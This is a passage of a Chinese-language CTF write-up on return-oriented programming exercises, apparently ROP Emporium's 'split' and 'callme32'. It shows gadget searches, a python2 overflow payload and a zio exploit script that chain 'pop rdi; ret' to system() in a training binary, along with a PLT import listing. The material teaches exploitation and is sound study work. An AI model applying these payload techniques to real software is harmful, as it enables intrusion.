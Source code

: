 我们先找到需要的 gadgets：
```
gdb-peda$ ropsearch "pop rdi; ret"
Searching for ROP gadget: 'pop rdi; ret' in: binary ranges
0x00400883 : (b'5fc3')  pop rdi; ret
```

下面是 payload：
```
$ python2 -c "print 'A'*40 + '\x83\x08\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x10\x08\x40\x00\x00\x00\x00\x00'" | ./split 
...
> ROPE{a_placeholder_32byte_flag!}
```

那我们是否还可以用前面那种方法调用 `system()` 的 plt 地址 `0x4005e0` 呢：
```
gdb-peda$ disassemble system
Dump of assembler code for function system:
   0x00007ffff7a63010 <+0>:     test   rdi,rdi
   0x00007ffff7a63013 <+3>:     je     0x7ffff7a63020 <system+16>
   0x00007ffff7a63015 <+5>:     jmp    0x7ffff7a62a70 <do_system>
   0x00007ffff7a6301a <+10>:    nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7a63020 <+16>:    lea    rdi,[rip+0x138fd6]        # 0x7ffff7b9bffd
   0x00007ffff7a63027 <+23>:    sub    rsp,0x8
   0x00007ffff7a6302b <+27>:    call   0x7ffff7a62a70 <do_system>
   0x00007ffff7a63030 <+32>:    test   eax,eax
   0x00007ffff7a63032 <+34>:    sete   al
   0x00007ffff7a63035 <+37>:    add    rsp,0x8
   0x00007ffff7a63039 <+41>:    movzx  eax,al
   0x00007ffff7a6303c <+44>:    ret    
End of assembler dump.
```
依然可以，因为参数的传递没有用到栈，我们只需把地址直接更改就可以了：
```python
from zio import *

payload  = "A"*40
payload += l64(0x00400883)
payload += l64(0x00601060)
payload += l64(0x4005e0)

io = zio('./split')
io.writeline(payload)
io.read()
```

#### callme32
这里我们要接触真正的 plt 了，根据题目提示，callme32 从共享库 libcallme32.so 中导入三个特殊的函数：
```
$ rabin2 -i callme32 | grep callme
ordinal=004 plt=0x080485b0 bind=GLOBAL type=FUNC name=callme_three
ordinal=005 plt=0x080485c0 bind=GLOBAL type=FUNC name=callme_one
ordinal=012 plt=0x08048620 bind=GLOBAL type=FUNC name=callme_two
```
